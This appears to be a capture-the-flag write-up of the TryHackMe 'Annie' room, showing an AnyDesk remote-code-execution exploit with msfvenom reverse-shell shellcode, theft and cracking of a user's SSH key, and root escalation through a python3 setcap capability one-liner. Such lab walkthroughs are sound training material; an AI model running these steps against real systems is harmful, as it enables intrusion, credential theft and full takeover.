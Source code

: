 ```yaml
---
title: "TryHackMe - Annie CTF writeup"
date: 2022-09-16 12:31:00 +0300
image: /assets/img/Posts/annie.png
categories: [Tryhackme, Easy]
tags: [cronjobs, sudo, web, gobuster, revshell, ssh-keygen, GTFObins, ssh]
---
```


| Room       | [annie](https://tryhackme.com/room/annie)       |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Medium                                                     |

# Let's get started
## Nmap scan
First, i started with an nmap scan as usual. I found that several ports are open, but i will focus my interest in ports `22` and `7070` because they have what i want.

![image](/assets/img/Posts/annie/nmap.webp)

Going further and scanning for port `7070` specifically. I find that it is running `realserver`. I also realized that it is running `AnyDesk` (a remote access software) from an ssl leak.

![image](/assets/img/Posts/annie/7070.webp)

I tried looking for an AnyDesk exploit that might be available and guess what! google never fails, i a remote code execution with a [CVE-2020–13160](https://www.exploit-db.com/exploits/49613) for `AnyDesk version 5.5.2`. because i don’t know the version of the `AnyDesk` yet, i’ll have to time it anyway.

![image](/assets/img/Posts/annie/rce.webp)

I copied the exploit to my local machine and there are couple of things we are required to change; `ip` and the `shellcode`.

Port `50001`? i did not find this in my nmap scan, but doing another scan but this time round with a UDP scan `-sU` flag, i found it. going on with the changes on the exploit.

>ip: changed it to the remote machine ip(the target)
{: .prompt-info }

![image](/assets/img/Posts/annie/port50001.webp)

For the shellcode we generate our own using the msfvenom command rendered in the exploit’s comment and copy the shellcode and replace the one given in the exploit

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your ip] LPORT=1234 -b “\x00\x25\x26” -f python -v shellcode
```
![image](/assets/img/Posts/annie/shellcode.webp)

the one i generated in my terminal
![image](/assets/img/Posts/annie/shellcode1.webp)
the one i pasted in the exploit

After doing those changes i was good to go. I ran the exploit, mind you, the exploit was created with python2. when you try python3 it will flag concatenation errors so;
`python2 exploit.py`

and now i started listen on the port in entered in the payload `nc -nlvp 1234` and the reverse shell will be up in 5 seconds

![image](/assets/img/Posts/annie/revshell.webp)

and yes i had the shell

![image](/assets/img/Posts/annie/revshell1.webp)

Then i thought of upgrading the shell but i remembered!!! i have ssh right? how about i grab the id_rsa key and login as annie? , long way? Nope just having fun…lets try that. copy the key from annie’s home directory `/home/annie/.ssh/id_rsa` changing its mode to `600`it and trying to login, i found that it is password protected.

![image](/assets/img/Posts/annie/rsa-protected.webp)

what now? worry not, we will use john the ripper to crack the password. but first we convert the ssh to what john can understand `ssh2john id_rsa > annie_id` and crack the passphrase using john command `john annie_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt`

![image](/assets/img/Posts/annie/pass.webp)

we are good now, lets go and login to the ssh account. first change the mode of the id_rsa file to protected `chmod 600 id_rsa` and the proceed to login by typing `ssh -i id_rsa annie@<target_ip>`
and we are in.

![image](/assets/img/Posts/annie/annishell.webp)

# User flag
just in the home directory. cat it and submit the flag
`cat user.txt`

![image](/assets/img/Posts/annie/userflag.webp)

# Root flag

to get the root flag we first need to escalate our privileges. in linux machines what i first think of is sudo -l and unfortunately we don’t have annie’s password, so what? linpeas? yes but it was kinda slow in running so i aborted the process. uurgh!…ooh there is one i did not try, SUID! so use find to check them.

```bash
find / -perm -4000 2>/dev/null`
```

![image](/assets/img/Posts/annie/suid.webp)

setcap!! this seems interesting..we can set capabilities to python and use that to escalate to root..how? copy `python3` to `tmp` dir

```bash
cp /usr/bin/python3 /tmp
cd /tmp
```
then set the capability
```bash
/sbin/setcap cap_setuid+ep python3
```
and then finally run the python command to escalate your privileges to the root and get your root flag, always in /root dir

```bash
./python3 -c ‘import os;os.setuid(0);os.system(“/bin/bash”)’
```

![image](/assets/img/Posts/annie/rootflag.webp)

i hope you enjoyed and liked the write up. you can find me in [twitter](https://twitter.com/pr0rat). any questions or compliments direct them to my dm.

thank you so much!!
